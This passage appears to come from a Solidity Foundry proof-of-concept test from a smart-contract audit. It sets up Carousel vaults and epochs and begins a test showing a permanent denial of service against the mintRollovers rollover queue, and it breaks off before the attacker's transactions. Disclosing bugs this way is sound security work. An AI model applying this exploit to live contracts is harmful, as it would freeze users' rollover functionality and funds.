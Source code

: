 ```solidity
                underlyingAsset: address(weth),
                name: "name",
                tokenURI: "tokenURI",
                controller: address(controllerPeggedAssetV2),
                relayerFee: 10000,
                depositFee: 250
            }
        );

        (address premium, address collateral, uint256 _marketId) = carouselFactory.createNewCarouselMarket(config);
        marketId = _marketId;
        premiumVault = Carousel(premium);
        collateralVault = Carousel(collateral);

        // creating the first two epochs, with the first one beginning and the second one queued:

        (epochId1,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+10), // epochBegin
            uint40(block.timestamp+20), // epochEnd
            100,1_000e18,1_000e18
        );

        vm.warp(block.timestamp+10); // epoch 1 has started

        // 10 timestamp gap between the first epoch and the second epoch
        (epochId2,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+20), // epochBegin
            uint40(block.timestamp+30), // epochEnd
            100,1_000e18,1_000e18
        );

        // first epoch resolved with nullEpoch as there are no deposits
        controllerPeggedAssetV2.triggerNullEpoch(marketId,epochId1);
        vm.stopPrank();
    }

    /// showcasing the bug/exploit
    function testPermanentDOS() public {

        // showcasing the ability of any user to completely shut down the mintRollovers(..) function which
        // will effectively deactivate the entire rollover functionality causing a permanent denial of service. 
        // to perform this permanent denial of service, the attacker will trick the rolloverQueue into having
        // an entry where the `assets` for that `epochId` will be greater than the balance of assets that
        // the attacker has, therefore causing the _burn(..) function call to revert. As mintRollovers(..)
        // will always loop through the queue starting at index=0, all calls will revert indefinitely 

        // other user deposits funds into the premium vault
        vm.prank(user1);
        premiumVault.depositETH{value:1e18}(
            epochId2,user1
        );

        // attacker crafts transactions to get an entry which has `assets` > their actual balance (attacker is using two addresses for this attack)
```